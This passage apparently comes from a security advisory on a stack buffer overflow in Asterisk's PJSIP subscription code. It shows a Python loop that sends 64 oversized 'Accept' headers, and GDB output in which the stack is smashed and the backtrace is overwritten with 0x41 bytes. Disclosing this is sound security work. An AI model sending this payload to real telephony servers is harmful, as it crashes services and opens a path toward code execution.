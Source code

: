 By increasing the amount of `Accept` headers in the python script, we see stack smashing actually occuring. Although this may not work on UDP due to packet limitations, it has been verified to work on TLS/TCP. The above script would need to be slightly modified to create 64 `Accept` headers each with a value of 100 bytes, as follows:

```python
            for _ in range(64):
                newmsg += 'Accept: ' + 'A' * 100 + '\r\n'
```

GDB Output:

```
*** stack smashing detected ***: /opt/asterisk/sbin/asterisk terminated

Thread 25 "asterisk" received signal SIGABRT, Aborted.
[Switching to Thread 0x7ffff0481700 (LWP 129)]
0x00007ffff5101428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
54	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  0x00007ffff5101428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007ffff510302a in __GI_abort () at abort.c:89
#2  0x00007ffff51437ea in __libc_message (do_abort=do_abort@entry=1, fmt=fmt@entry=0x7ffff525b49f "*** %s ***: %s terminated\n") at ../sysdeps/posix/libc_fatal.c:175
#3  0x00007ffff51e515c in __GI___fortify_fail (msg=<optimized out>, msg@entry=0x7ffff525b481 "stack smashing detected") at fortify_fail.c:37
#4  0x00007ffff51e5100 in __stack_chk_fail () at stack_chk_fail.c:28
#5  0x00007ffff1613be2 in subscription_get_generator_from_rdata (handler=<optimized out>, handler=<optimized out>, rdata=<optimized out>) at res_pjsip_pubsub.c:755
#6  0x4141414141414141 in ?? ()
#7  0x4141414141414141 in ?? ()
#8  0x4141414141414141 in ?? ()
#9  0x4141414141414141 in ?? ()
#10 0x4141414141414141 in ?? ()
#11 0x4141414141414141 in ?? ()
#12 0x0041414141414141 in ?? ()
#13 0x4141414141414141 in ?? ()
#14 0x4141414141414141 in ?? ()
#15 0x4141414141414141 in ?? ()
#16 0x4141414141414141 in ?? ()
#17 0x4141414141414141 in ?? ()
#18 0x4141414141414141 in ?? ()
#19 0x4141414141414141 in ?? ()
#20 0x0041414141414141 in ?? ()
#21 0x4141414141414141 in ?? ()
#22 0x4141414141414141 in ?? ()
#23 0x4141414141414141 in ?? ()
#24 0x4141414141414141 in ?? ()
#25 0x4141414141414141 in ?? ()
#26 0x4141414141414141 in ?? ()
#27 0x4141414141414141 in ?? ()
#28 0x0041414141414141 in ?? ()
#29 0x4141414141414141 in ?? ()
#30 0x4141414141414141 in ?? ()
#31 0x4141414141414141 in ?? ()
```
